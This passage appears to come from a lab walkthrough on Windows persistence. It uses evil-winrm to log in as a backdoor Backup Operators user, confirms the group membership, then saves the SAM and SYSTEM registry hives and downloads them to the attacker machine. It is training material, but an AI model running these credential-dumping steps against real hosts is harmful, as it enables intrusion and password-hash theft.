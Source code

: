 Once all of this has been set up, we are ready to use our backdoor user. First, let's establish a WinRM connection and check that the Backup Operators group is enabled for our user:

```bash
🔴🟢🟡                        AttackBox
user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321
        
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```

We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:

```bash
🔴🟢🟡                        AttackBox
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

**Note:** If Evil-WinRM takes too long to download the files, feel free to use any other transfer method.
